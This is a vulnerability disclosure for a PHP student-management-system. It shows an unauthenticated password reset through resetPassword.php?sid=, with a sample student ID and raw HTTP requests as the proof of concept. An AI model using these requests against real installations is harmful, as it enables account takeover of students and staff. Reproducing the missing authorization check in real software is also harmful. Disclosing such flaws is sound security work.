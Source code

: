 # student-management-system resetPassword.php user password reset

   
#### Exploit Title: student-management-system resetPassword.php user password reset
#### Exploit Author: webraybtl@webray.com.cn inc
#### Vendor Homepage: https://github.com/ningzichun/student-management-system
#### Software Link: https://github.com/ningzichun/student-management-system
#### Version: student-management-system 1.0
#### Tested on: Windows Server 2008 R2 Enterprise, Apache ,Mysql

#### Description
The step of modifying the password was not verified, resulting in the ability to directly enter the website where the final password was modified, directly redirect to the page, and then enter a new password to reset the password, resulting in a everybody password reset student-management-system does not filter the content correctly at the "resetPassword.php" sid module, resulting in anyone password reset.

#### Payload used:
test account:201600012489
`/resetPassword.php?sid=xxxx`

#### Proof of Concept


1. Open login.php source code.

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/09c9d16d-8893-40be-8d43-f953619242f8)
2. request a getUser.php response.
```
GET /student/admin/fun/getUser.php HTTP/1.1
Host: 172.24.6.107:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Origin: http://172.24.6.107:8081
Connection: close
Referer: http://172.24.6.107:8081/student/?retry=1
Cookie: PHPSESSID=
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache


```
![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/205b0b56-c798-43a7-8da7-72b930833d19)


3. request a resetPassword.php response.

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/01fc6eed-31ad-4e62-b92f-572754c71785)

```
GET /student/admin/fun/resetPassword.php?sid=201600012489 HTTP/1.1
Host: 172.24.6.107:8081
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:89.0) Gecko/20100101 Firefox/89.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Origin: http://172.24.6.107:8081
Connection: close
Referer: http://172.24.6.107:8081/student/?retry=1
Cookie: PHPSESSID=
Upgrade-Insecure-Requests: 1
Pragma: no-cache
Cache-Control: no-cache

```

4. user login

![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/e41ff0f2-2866-4ade-be98-dc40f57677b5)
![image](https://github.com/Xor-Gerke/webray.com.cn/assets/60683449/bb867c0d-537c-4ae6-8d5d-a1d7ab770dba)



